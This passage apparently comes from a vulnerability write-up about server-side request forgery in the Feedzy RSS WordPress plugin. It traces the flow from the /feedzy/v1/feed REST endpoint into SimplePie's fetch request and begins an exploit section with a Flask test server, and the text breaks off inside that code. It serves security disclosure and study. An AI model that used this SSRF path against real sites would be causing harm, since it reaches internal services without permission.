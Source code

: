 ```php {title="SimplePie.php - v5.1.0" hl_lines=[29,43,44,45,46,47,48,49,50]}
        $utf8_data = $this->convert_to_utf8($this->raw_data, $encoding);
        $parser = $this->registry->create(Parser::class);
        if ($parser->parse($utf8_data, 'UTF-8', $this->permanent_url)) {
            $this->data = $parser->get_data();
            return true;
        }
    }

    return false;
}
```

=> We see the requested file is expected to be XML

```php
$this->fetch_data($cache)
```

This is where the HTTP request to the user-supplied URL is performed.

### Flow

{{< mermaid >}}
graph TD
A["User input via /feedzy/v1/feed (REST API)"] --> B["feedzy_sanitize_feeds()"]
B --> C["esc_url() → no internal host validation"]
C --> D["feedzy_rest_route()"]
D --> E["Feedzy_Rss_Feeds::instance()"]
E --> F["$admin->fetch_feed(url)"]
F --> G{"feedzy_amazon_get_locale_hosts() exists?"}
G -- No --> H["init_feed()"]
H --> I["Feedzy_Rss_Feeds_Util_SimplePie::init()"]
I --> J["fetch_data(cache)"]
J --> K["HTTP request to user-controlled URL → SSRF"]
{{< /mermaid >}}

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, request, send_from_directory, Response
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/feed', methods=['GET'])
def feed():
    xml_content = """<?xml version="1.0" encoding="UTF-8"?>
    <rss version="2.0">
```